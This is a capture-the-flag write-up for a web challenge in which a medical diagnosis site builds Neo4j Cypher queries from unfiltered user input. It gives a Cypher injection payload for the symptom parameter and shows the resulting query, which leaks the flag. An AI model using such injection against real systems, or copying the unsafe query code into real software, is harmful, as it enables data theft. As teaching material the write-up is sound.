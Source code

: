 # Dead or Alive
> We have developed an innovative disease detection system using graph theory. Come and test our system, all your personal data is securely protected

## About the Challenge
We have been given a source code (You can download the source code [here](source.zip)) and a website, here is the preview of the website

![preview](images/preview.png)

In this website, there is a form where we can input the SSN (Social Security Number), full name, birth date, weight, and the symptoms.

![form](images/form.png)

The website will generate the possible diseases we may suffer from based on the symptoms

![diagnosis](images/diagnosis.png)

## How to Solve?
Let's check the source code first, there is a file called `app.js`

```js
import express from 'express';
import nunjucks from 'nunjucks';
import neo4j from 'neo4j-driver';
import md5 from 'md5'
import moment from 'moment'
```

It looks like this website using `node` as a backend, `nunjucks` as a templating engine, and `neo4j` as a database. There are 3 endpoints that we can use:

* /api/setUser
* /api/setSymptoms
* /api/getDiagnosis

When the user called `/api/setUser` endpoint, the code will call `setUser` function. Here is the content of `setUser` function

```js
async function setUser(ssn, name, yearOfBirth, weight){
    const session = driver.session();
    const q = `
        MERGE (p:Patient {
                    ssn: '${ssn}'
                })
        ON CREATE SET p.since = date()
        SET p.name = '${name}'
        SET p.yearOfBirth = ${yearOfBirth}
        SET p.weight = ${weight}
    `
    return session.run(q)
            .catch(() => {})
            .then(() => session.close());
}
```

When the user called `/api/setSymptoms` endpoint, the code will call `setSymptoms` function. Here is the content of `setSymptoms` function

```js
async function setSymptoms(ssn, symptoms){
    const session = driver.session();
    let q = `
        MATCH (p:Patient {ssn: '${ssn}'})
        MATCH (s:Symptom) WHERE s.name in [${symptoms}]
        MERGE (p)-[r:HAS]->(s)
    `;
    return session.run(q)
            .catch(() => {})
            .then(() => session.close());
}
```

When the user called `/api/getDiagnosis` endpoint, the code will call `getDiagnosis` function. Here is the content of `getDiagnosis` function

```js
async function getDiagnosis(ssn){
    const session = driver.session();
    const q = `
        // get patient symptoms as array
        MATCH (p:Patient {ssn: '${ssn}'})-[:HAS]->(s:Symptom)-[:OF]->(d:Disease)
        WITH d, collect(s.name) AS p_symptoms
        
        // looking for a match of the patient's symptoms in the symptoms of diseases
        MATCH (d)<-[:OF]-(d_symptom:Symptom)
        WITH d, p_symptoms, collect(d_symptom.name) as d_symptoms
        WHERE size(p_symptoms) = size(d_symptoms)
        RETURN d.name, d.description
    `;
    const result = await session.run(q).catch(() => {});
    session.close();
    return result?.records.map((record) => ({
            name: record.get('d.name'),
            description: record.get('d.description')
    }));
}
```

It looks like there is no filter in the user input. So, these 3 endpoints is vulnerable to Cypher Injection. But if we check the routes again, There is a filter that limits our input:

* /api/setUser
  * SSN: There is a limit of characters (9 characters)
  * Full name: The program hashed our input
  * Year of Birth: Date format (DD-MM-YYYY)
  * Weight: Only accept float as a user input
* /api/setSymptoms
  * SSN: There is a limit of characters (9 characters)
  * Symptom: No filter
* /api/getDiagnosis
  * SSN: There is a limit of characters (9 characters)

So we can only exploit the website in the `symptom` parameter. For this chall, the flag was located in the disease table. To obtain the flag, we need to input `Fever'] or True //` in the `symptom` parameter. The neo4j query will run like this

```
MATCH (p:Patient {ssn: '000000001'})
MATCH (s:Symptom) WHERE s.name in ['Fever'] or True //']
MERGE (p)-[r:HAS]->(s)
```

![payload](images/payload.png)

And then hit `/api/getDiagnosis` to obtain the flag

![flag](images/flag.png)

You can see the flag in the description of the disease

```
ctfzone{C4n_Th3_D34D_Pl4y_CTF?}
```